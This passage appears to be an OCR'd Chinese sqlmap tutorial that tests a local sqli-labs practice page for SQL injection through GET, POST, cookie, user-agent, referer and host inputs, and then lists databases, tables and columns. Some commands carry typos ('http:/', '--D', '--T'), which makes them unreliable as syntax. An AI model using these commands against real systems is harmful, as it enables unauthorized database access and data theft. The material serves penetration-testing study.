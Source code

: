 sqlmap -u "http:/192.168.3.2/sqli-labs-master/sqli-labs-master/Less-1/?id=1"

2.POST参数注入

sqlmap -u "http:/192.168.3.2/sqli-labs-master/sqli-labs-master/Less-1"  --data="id=1"

3.cookie注入 （level>=2时才会检测cookie）  

sqlmap -u "http:/192.168.3.2/sqli-labs-master/sqli-labs-master/Less-1/?id=1" --level 2

如图，用 * 号指定cookie，这样就可以检测cookie。

sqlmap  -r"/root/1.txt" 



4.user-agent注入

sqlmap -u "http:/192.168.3.2/sqli-labs-master/sqli-labs-master/Less-1/?id=1" --level 3

如图，用 * 号指定user-agent，这样就可以检测user-agent。



sqlmap  -r"/root/1.txt" 

5.referer注入

sqlmap -u "http:/192.168.3.2/sqli-labs-master/sqli-labs-master/Less-1/?id=1" --level 3

如图，用 * 号指定referer，这样就可以检测referer。

sqlmap  -r"/root/1.txt" 



6.host注入

sqlmap -u "http:/192.168.3.2/sqli-labs-master/sqli-labs-master/Less-1/?id=1" --level 5

如图，用 * 号指定host，这样就可以检测host。

sqlmap  -r"/root/1.txt" 



# 实例演示-获取数据库信息

1.查看数据库

sqlmap -u "http:/192.168.3.2/sqli-labs-master/sqli-labs-master/Less-1/?id=1" --dbs  --batch



2.查看数据库里面的表

sqlmap -u "http:/192.168.3.2/sqli-labs-master/sqli-labs-master/Less-1/?id=1" --D security --tables --batch



3.查看数据库表里面的列

sqlmap -u "http:/192.168.3.2/sqli-labs-master/sqli-labs-master/Less-1/?id=1" --D security --T users --columns   --batch

